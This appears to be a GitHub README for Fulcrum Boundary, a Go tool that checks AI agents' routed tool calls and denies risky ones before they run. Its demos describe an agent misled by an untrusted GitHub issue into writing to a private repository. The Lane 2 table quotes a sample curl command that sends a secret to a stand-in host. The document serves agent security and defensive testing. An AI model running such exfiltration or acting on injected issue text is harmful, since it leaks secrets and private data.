

# Fulcrum Boundary

> The action boundary for routed agent tools.

**See what your AI tools can do. Block what they should not.**

MCP is the first production route; Command and Edit are delivered previews.

Your agent is about to touch a real system. Boundary decides before the tool executes, records the verdict, and governs only routes forced through Boundary.

[](https://pkg.go.dev/github.com/fulcrum-governance/fulcrum-boundary)
[](https://github.com/Fulcrum-Governance/Fulcrum-Boundary/actions/workflows/ci.yml)
[](https://goreportcard.com/report/github.com/fulcrum-governance/fulcrum-boundary)
[](./LICENSE)

[Quickstart](#first-run-in-one-minute) | [Demo](./docs/DEMO_GITHUB_LETHAL_TRIFECTA.md) | [Docs](https://fulcrum-governance.github.io/Fulcrum-Boundary/) | [Claims](./docs/CLAIMS_LEDGER.md) | [Release Truth](./docs/RELEASE_TRUTH_PUBLIC.md) | [Security](./SECURITY.md)

## What Boundary Stops

A coding agent reads an untrusted GitHub issue, then proposes a write to a
private repository — a write-after-taint action.

- **Action:** the write to the private repository, the system the agent is about to touch.
- **Route:** the request travels the **MCP route**, the first production route forced through Boundary.
- **Verdict:** Boundary returns `DENY` **before upstream**, with `reason=lethal_trifecta_detected`.
- **Record:** Boundary emits a structured decision record of that verdict (`rec_...`), checkable with `boundary verify-record`.

Boundary governs an action only when the route is forced through Boundary.
Direct access to the same tool is a bypass unless deployment topology removes
that path. The same shape holds for Command Boundary, a delivered preview, which
denies a routed secret-exfiltration command before execution.

## First-Run In One Minute

Requires Go 1.25+ and a C toolchain (a C compiler such as gcc/clang on `PATH`).
The default build links the Postgres SQL classifier (`pganalyze/pg_query_go`)
via cgo, so `CGO_ENABLED=0` builds fail; `go install` uses cgo by default.

```bash
go install github.com/fulcrum-governance/fulcrum-boundary/cmd/boundary@v0.7.0
boundary selftest
boundary doctor --json
boundary demo github-lethal-trifecta      # Lane 1: MCP, the first production route
boundary demo command-secret-exfil        # Lane 2: Command Boundary, a delivered preview
boundary evidence bundle --include-demo --out boundary-evidence
boundary evidence verify boundary-evidence
# when a demo or evidence artifact prints a decision-record path:
boundary verify-record <record.json>
```

No credentials. No live calls. No real mutations. Each demo prints a
`decision record: rec_...` ID; to write a record file for `verify-record`, run
`boundary demo github-lethal-trifecta --json --out demo.json`, which writes
`github-lethal-trifecta-artifacts/decision-records.jsonl`. New here? See
[docs/TROUBLESHOOTING.md](./docs/TROUBLESHOOTING.md) for the expected first-run
states (a clean checkout shows `doctor` surfaces as `warn`, and
`evidence verify` reports `parsed_records: 0` — both are normal).

## Two Proof Lanes

The launch is a tight spine of **two fixture-only proof lanes** — not a breadth-of-adapters list. Each denies a dangerous action pattern before it runs and emits a hash-verifiable decision record. The two lanes carry equal weight: **Lane 1** is the MCP route (the first production route) and **Lane 2** is Command Boundary (a delivered preview). Everything else ships as a labeled preview (see [Adapter Readiness](#adapter-readiness)).


| Lane | Status | Demo | What is denied | Verified shape |
|---|---|---|---|---|
| **Lane 1 — MCP** (the first production route) | Production | `boundary demo github-lethal-trifecta` | A write-after-taint GitHub action, denied **before upstream** | `actual=DENY`, `upstream_called=false`, `reason=lethal_trifecta_detected` |
| **Lane 2 — Command Boundary** (a delivered preview, routed-only) | Delivered preview | `boundary demo command-secret-exfil` | A routed `curl -d [redacted] https://example.invalid` secret exfiltration, denied **before execution** | `actual=DENY`, `executed=false`, `class=C6` |

Both lanes are fixture-only: no credentials, no network, no live mutation, each
emitting a `rec_...` decision record with a `sha256:` decision hash. The static
poster above renders both lanes at equal weight; if it has not been generated
yet, the two-lane table above is the canonical proof. A linear, single-lane
[deny-before-upstream walkthrough](./docs/assets/boundary-demo-walkthrough.svg)
is also available as a no-JS fallback for the MCP lane; it is a stylized diagram,
not a literal capture.

## Terminal Receipt — See the MCP Lane Run

This recording is a real run of `boundary demo github-lethal-trifecta`, the
Lane 1 (MCP) demo above. It shows untrusted GitHub issue context flowing into a
private-repo mutation attempt; Boundary denies the routed action before GitHub
is touched, reports `upstream_called=false`, and emits a hash-verifiable decision
record. No credentials, live calls, or real mutations are used. For the Lane 2
(Command Boundary) run, use `boundary demo command-secret-exfil`.


## The Record It Leaves

Every governed verdict produces a structured decision record
([docs/DECISION_RECORDS.md](./docs/DECISION_RECORDS.md)). Where configured, that
record is receipt-grade — carrying request, policy bundle, and decision hashes —
so tampering after emission is detectable by recomputation with
`boundary verify-record` ([docs/RECEIPTS.md](./docs/RECEIPTS.md)). Bundle and
re-check the local fixture-safe evidence with `boundary evidence bundle` and
`boundary evidence verify` ([docs/EVIDENCE_BUNDLE.md](./docs/EVIDENCE_BUNDLE.md)).
To confirm a route is forced through Boundary before relying on a verdict, work
through the [route conformance checklist](./docs/ROUTE_CONFORMANCE_CHECKLIST.md).

The `upstream_called=false` and `executed=false` fields are adapter self-reports
of their own control flow; they are **not** fields of the hashed record and are
**not** independently corroborated by it. Boundary does not emit `proved`
decisions itself.

## What It Proves

| Scope | Proof shown by the local fixture |
|---|---|
| Inventory | Boundary can read a fixture MCP client config and list reachable tools. |
| Risk graph | Boundary can connect untrusted GitHub context to a private-repo mutation path. |
| Starter policy | Boundary can generate local starter policies that parse through its verifier. |
| Secure GitHub preview | Boundary can deny the tested write-after-taint fixture before GitHub is touched. |
| Decision record | Boundary records the verdict and reason for the governed route. |

## What It Does Not Prove

| Limit | Why it matters |
|---|---|
| Every malicious prompt | The fixture covers the tested write-after-taint path, not every possible issue or agent behavior. |
| Production Secure GitHub status | Secure GitHub remains preview until deployment bypass evidence and broader live coverage are recorded. |
| Protection for direct tool calls | Boundary governs routed tools. Direct access to the same tool is a bypass unless deployment topology blocks it. |
| Complete production policy | Generated policies are starter policies for operator review. |
| Hosted monitoring | The dashboard reads local artifacts only. |

## Core Model



Boundary governs actions only when the route is forced through Boundary.

## Current Release Truth

| Surface | Status | Limit |
|---|---|---|
| MCP adapter | Production | Governs MCP routes forced through Boundary. |
| Secure GitHub | Preview | Fixture proof and opt-in conformance do not close deployment bypasses. |
| Command Boundary | Delivered preview | Routed command paths only. |
| Edit Boundary | Delivered preview | Routed edit envelopes only. |
| Policy generation | Starter policy utility | Requires operator review. |
| Dashboard | Local artifact visibility | Not hosted monitoring. |

## Adapter Readiness

Adapter maturity is declared in `adapters/<adapter>/readiness.yaml` and summarized in [docs/ADAPTER_READINESS_MATRIX.md](./docs/ADAPTER_READINESS_MATRIX.md).

### Production

- `adapters/mcp`: MCP routes forced through Boundary.

### Preview

- `adapters/a2a`: A2A lifecycle adapter with deployment bypass proof still required.
- `adapters/cli`: CLI wrapper path with sole-execution-path evidence still required.
- `adapters/codeexec`: Code execution adapter with named sandbox and bypass proof still required.
- `adapters/grpc`: gRPC adapter with deployment and streaming evidence still required.
- `adapters/managedagents`: Managed Agents lifecycle surface pending live upstream conformance.
- `adapters/securegithub`: Secure GitHub preview pending deployment bypass proof.
- `adapters/webhook`: Webhook adapter with downstream sole-action-path evidence still required.

## Product Surfaces

| Surface | What it proves today | Limit |
|---|---|---|
| MCP Firewall | Inventory, risk graph, starter policy generation, local dashboard artifacts. | Local visibility does not secure servers by itself. |
| Secure GitHub preview | Denies the fixture write-after-taint path before upstream mutation. | Not a production Secure GitHub claim. |
| Command Boundary preview | Routes selected project command paths through Boundary. | Direct shell paths outside the route are not governed. |
| Edit Boundary preview | Routes selected edit envelopes through Boundary. | Direct file writes outside the route are not governed. |
| Evidence utilities | Bundle and verify local receipts. | Receipts do not prove production safety by themselves. |

## Docs Map

| Need | Start here |
|---|---|
| Install | [docs/INSTALL.md](./docs/INSTALL.md) |
| First-run troubleshooting | [docs/TROUBLESHOOTING.md](./docs/TROUBLESHOOTING.md) |
| Demo | [docs/DEMO_GITHUB_LETHAL_TRIFECTA.md](./docs/DEMO_GITHUB_LETHAL_TRIFECTA.md) |
| Full spec | [docs/BOUNDARY_SPEC.md](./docs/BOUNDARY_SPEC.md) |
| Claims | [docs/CLAIMS_LEDGER.md](./docs/CLAIMS_LEDGER.md) |
| Testing | [docs/TESTING.md](./docs/TESTING.md) |
| Release truth | [docs/RELEASE_TRUTH_PUBLIC.md](./docs/RELEASE_TRUTH_PUBLIC.md) |
| Adapter readiness | [docs/ADAPTER_READINESS_MATRIX.md](./docs/ADAPTER_READINESS_MATRIX.md) |
| Route conformance | [docs/ROUTE_CONFORMANCE_CHECKLIST.md](./docs/ROUTE_CONFORMANCE_CHECKLIST.md) |
| Decision records | [docs/DECISION_RECORDS.md](./docs/DECISION_RECORDS.md) |
| Receipt-grade records | [docs/RECEIPTS.md](./docs/RECEIPTS.md) |
| Evidence bundle | [docs/EVIDENCE_BUNDLE.md](./docs/EVIDENCE_BUNDLE.md) |
| MCP Firewall | [docs/firewall/DISCOVERY_INVENTORY.md](./docs/firewall/DISCOVERY_INVENTORY.md) |
| Secure GitHub | [docs/secure-mcp/GITHUB.md](./docs/secure-mcp/GITHUB.md) |
| Command Boundary | [docs/command-boundary/README.md](./docs/command-boundary/README.md) |
| Edit Boundary | [docs/edit-boundary/README.md](./docs/edit-boundary/README.md) |
| Security | [SECURITY.md](./SECURITY.md) |

## Development

```bash
make selftest
make demo-github
make release-check
```

## Tests

```bash
go test ./claims/... -count=1
go test ./... -count=1 -timeout 5m
make docs-build
```

## Part of the Fulcrum Architecture

Boundary is the downloadable action boundary in the Fulcrum repo family:

| Repo | Role |
|---|---|
| [`Fulcrum-Boundary`](https://github.com/Fulcrum-Governance/Fulcrum-Boundary) | Enforces routed action decisions before privileged tool execution. |
| [`fulcrum-io`](https://github.com/Fulcrum-Governance/fulcrum-io) | Hosted product and operator surfaces. |
| [`fulcrum-trust`](https://github.com/Fulcrum-Governance/fulcrum-trust) | Trust modeling package used by broader Fulcrum work. |
| [`Fulcrum-Proofs`](https://github.com/Fulcrum-Governance/Fulcrum-Proofs) | Lean proof work consumed through documented correspondence and release claims. |

Boundary consumes proof-backed contracts through documented correspondence and decision-mode boundaries; it does not emit `proved` decisions itself. See [docs/PROOF_BOUNDARY.md](./docs/PROOF_BOUNDARY.md).

## License

Apache 2.0 - see [LICENSE](./LICENSE).

## Contributing

See [CONTRIBUTING.md](./CONTRIBUTING.md). For security issues, see [SECURITY.md](./SECURITY.md).
